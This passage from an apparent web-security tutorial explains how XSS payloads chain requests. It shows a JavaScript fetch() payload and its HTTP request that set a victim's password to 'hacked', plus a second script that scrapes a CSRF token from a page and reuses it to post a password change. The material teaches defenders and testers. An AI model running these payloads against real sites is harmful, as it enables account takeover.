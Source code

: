 {% code title="Payload" %}
```javascript
fetch("http://target.com/api/change_password", {
    method: "POST",
    headers: {
        "Content-Type": "application/json",
        "X-Custom-Header": "anything"
    },
    body: JSON.stringify({
        "password": "hacked",
        "confirm_password": "hacked"
    })
})
```
{% endcode %}

{% code title="HTTP Request" %}
```http
POST /api/change_password HTTP/1.1
Host: target.com
Cookie: session=...
X-Custom-Header: anything
Content-Type: application/json
Content-Length: 49

{"password":"hacked","confirm_password":"hacked"}
```
{% endcode %}

Due to `fetch()` only being a simple function call, you can create a very complex sequence of actions in JavaScript code to execute on the victim, as some actions require some setup. You could create an API token using one request, and then use it in the next to perform some API call. Or a more common example is fetching a [cross-site-request-forgery-csrf.md](../cross-site-request-forgery-csrf.md "mention") token from some form, and then using that token to POST data if it is protected in that way. As you can see, CSRF tokens do _not_ protect against XSS:

```javascript
fetch("http://target.com/login")  // Request to some form with CSRF token
    .then(res => res.text())
    .then(res => {
        // Extract CSRF token
        const csrf_token = res.match(/<input type="hidden" name="csrf_token" value="(.*)" \/>/)[1];
        // Build password reset form data
        const form = new FormData();
        form.append("csrf_token", csrf_token);
        form.append("password", "hacked");
        form.append("confirm_password", "hacked");

        // Perform another request with leaked token
        fetch("http://target.com/change_password", {
            method: "POST",
            body: form
        });
    });
```


[^1]: slashes (/) and quotes (") disallowed
[^2]: quotes (") disallowed